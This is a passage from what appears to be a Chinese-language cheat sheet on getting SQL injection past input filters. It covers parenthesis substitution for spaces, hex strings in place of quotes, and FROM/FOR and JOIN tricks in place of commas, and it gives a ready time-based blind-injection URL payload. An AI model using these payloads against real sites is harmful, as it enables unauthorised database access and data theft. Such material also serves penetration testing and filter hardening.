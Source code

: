 ### 使用**两个空格**替代一个空格

### 使用**括号**绕过

如果空格被过滤，括号没有被过滤，可以用括号绕过。
在MySQL中，括号是用来包围子查询的。因此，任何可以计算出结果的语句，都可以用括号包围起来。而括号的两端，可以没有多余的空格。

例如：

```sql
select(user())from dual where(1=1)and(2=2)
```

这种过滤方法常常用于time based盲注,例如：

```sql
?id=1%27and(sleep(ascii(mid(database()from(1)for(1)))=109))%23
```

## 过滤引号

### 使用**16进制**绕过

会使用到引号的地方一般是在最后的where子句中。如下面的一条sql语句，这条语句就是一个简单的用来查选得到users表中所有字段的一条语句：

```sql
select column_name  from information_schema.tables where table_name="users"
```

这个时候如果引号被过滤了，那么上面的`where`子句就无法使用了。那么遇到这样的问题就要使用十六进制来处理这个问题了。
`users`的十六进制的字符串是`7573657273`。那么最后的sql语句就变为了：

```sql
select column_name  from information_schema.tables where table_name=0x7573657273
```

## 过滤逗号

### 使用**from关键字**绕过

对于`substr()`和`mid()`这两个方法可以使用`from to`的方式来解决：

```sql
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);
```

### 使用**join关键字**绕过

```sql
union select 1,2
等价于
union select * from (select 1)a join (select 2)b
```

### 使用**like关键字**绕过
